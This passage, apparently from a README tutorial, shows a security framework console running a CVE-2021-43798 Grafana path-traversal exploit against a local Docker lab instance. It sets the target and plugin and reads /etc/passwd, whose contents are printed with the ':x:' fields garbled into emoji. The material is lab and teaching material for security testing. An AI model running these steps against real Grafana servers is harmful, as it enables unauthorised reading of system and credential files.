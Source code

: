 ## Step 5: Set Required Options

Configure the exploit for your target Grafana instance:

```bash
pysecfw (CVE-2021-43798)> set RHOST localhost
pysecfw (CVE-2021-43798)> set PLUGIN alertlist
```

If you set up Grafana with Docker as shown in Step 0:

```bash
pysecfw (CVE-2021-43798)> set RHOST localhost
pysecfw (CVE-2021-43798)> set RPORT 3000
pysecfw (CVE-2021-43798)> set PLUGIN alertlist
pysecfw (CVE-2021-43798)> set SCHEME http
```

Or read a specific file:

```bash
pysecfw (CVE-2021-43798)> set FILE /etc/passwd
```

## Step 6: Run the Exploit

Execute the exploit:

```bash
pysecfw> run
```

Output:

```
Executing CVE-2021-43798...

Targeting localhost...

Exploitation
╭──────────── CVE-2021-43798 ─────────────╮
│ Reading /etc/passwd from localhost:3000 │
╰─────────────────────────────────────────╯
✓ Success via plugin: alertlist
╭──────────────── Contents of /etc/passwd ─────────────────╮
│ root❌0:0:root:/root:/bin/ash                            │
│ bin❌1:1:bin:/bin:/sbin/nologin                          │
│ daemon❌2:2:daemon:/sbin:/sbin/nologin                   │
│ adm❌3:4:adm:/var/adm:/sbin/nologin                      │
│ lp❌4:7:lp:/var/spool/lpd:/sbin/nologin                  │
│ sync❌5:0:sync:/sbin:/bin/sync                           │
│ shutdown❌6:0:shutdown:/sbin:/sbin/shutdown              │
│ halt❌7:0:halt:/sbin:/sbin/halt                          │
│ mail❌8:12:mail:/var/mail:/sbin/nologin                  │
│ news❌9:13:news:/usr/lib/news:/sbin/nologin              │
│ uucp❌10:14:uucp:/var/spool/uucppublic:/sbin/nologin     │
│ operator❌11:0:operator:/root:/sbin/nologin              │
│ man❌13:15:man:/usr/man:/sbin/nologin                    │
│ postmaster❌14:12:postmaster:/var/mail:/sbin/nologin     │
│ cron❌16:16:cron:/var/spool/cron:/sbin/nologin           │
│ ftp❌21:21::/var/lib/ftp:/sbin/nologin                   │
│ sshd❌22:22:sshd:/dev/null:/sbin/nologin                 │
│ at❌25:25:at:/var/spool/cron/atjobs:/sbin/nologin        │
│ squid❌31:31:Squid:/var/cache/squid:/sbin/nologin        │
│ xfs❌33:33:X Font Server:/etc/X11/fs:/sbin/nologin       │
│ games❌35:35:games:/usr/games:/sbin/nologin              │
│ cyrus❌85:12::/usr/cyrus:/sbin/nologin                   │
│ vpopmail❌89:89::/var/vpopmail:/sbin/nologin             │
```